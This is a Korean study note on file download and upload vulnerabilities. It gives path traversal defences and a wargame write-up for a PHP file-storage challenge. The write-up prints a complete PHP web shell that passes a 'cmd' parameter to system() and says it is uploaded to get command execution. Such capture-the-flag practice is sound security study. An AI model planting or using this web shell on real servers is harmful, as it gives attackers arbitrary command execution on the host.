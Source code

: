 ### 파일 다운로드 취약점(File Download Vulnerability)

유저가 다운로드할 파일이름을 정할수 있을 떄 발생
1. Path Traversal

방어
- 다운로드 요청 파일 이름 검증
- 파일 이름과 1:1 매핑되는 키 생성후 이름 대신 키 사용

### wargame

**image-storage**
php로 작성된 파일 저장 서비스입니다.
파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 `/flag.txt`에 있습니다.


취약점 분석 / 파일 다운로드후 확인
- 임의 파일 업로드 가능

![File-Vulnerability-1](images/Pasted%20image%2020230829213419.png)
- upload 페이지 접속

```php  

<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
if(isset($_GET['cmd']))
{
	system($_GET['cmd']);
}
?></pre></body></html>
```
- 해당 소스코드로 만든 php 파일 업로드
